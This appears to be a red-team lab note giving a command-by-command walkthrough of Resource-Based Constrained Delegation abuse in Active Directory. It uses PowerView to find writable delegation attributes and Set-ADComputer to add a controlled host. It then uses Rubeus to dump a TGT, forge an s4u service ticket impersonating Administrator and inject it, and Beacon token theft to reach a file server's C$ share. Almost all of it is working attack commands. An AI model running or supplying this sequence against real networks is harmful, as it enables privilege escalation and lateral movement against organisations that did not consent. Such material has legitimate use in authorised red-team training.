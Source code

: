 
> [!NOTE] **Note**
> This is much easier to do through a SOCKS proxy using PowerView
> 
> Setup found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F10.%20Pivoting%2F_%20Main)

Import PowerView
```powershell
ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Setup credentials to be used
```powershell
‌$Cred = Get-Credential CONTOSO\rsteel
```

Find principals that have WriteProperty privileges on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of computers.
```powershell
Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier

Get-DomainComputer -Server 'enc-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'enc-dc-1' | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier
```

Resolve the SID to a domain group/user.
```powershell
Get-ADGroup -Filter 'objectsid -eq "SID"' -Server 'lon-dc-1' -Credential $Cred
```

Check for any existing RBCD configurations.
```powershell
Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

Add RBCD between _RBCD machine_ and _controlled host_, making sure not to overwrite the existing entry.
```powershell
$existing_entry = Get-ADComputer -Identity 'existing_RBCD_entry' -Server 'lon-dc-1' -Credential $Cred

$controlled_host = Get-ADComputer -Identity 'controlled_host' -Server 'lon-dc-1' -Credential $Cred

Set-ADComputer -Identity 'RBCD_Machine' -PrincipalsAllowedToDelegateToAccount $existing_entry,$controlled_host -Server 'lon-dc-1' -Credential $Cred
```

Verify that controlled host was added was added.
```powershell
Get-ADComputer -Identity 'RBCD_host' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

In the high-integrity Beacon, obtain a TGT for the controlled host.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
```

Request a usable service ticket for cifs/RBCD_host impersonating the default domain administrator.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-wkstn-1$ /impersonateuser:Administrator /msdsspn:cifs/lon-fs-1 /nowrap /ticket:
```

Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist
ls \\lon-fs-1\c$

rev2self       <--- Drop impersonation
kill [PID]
```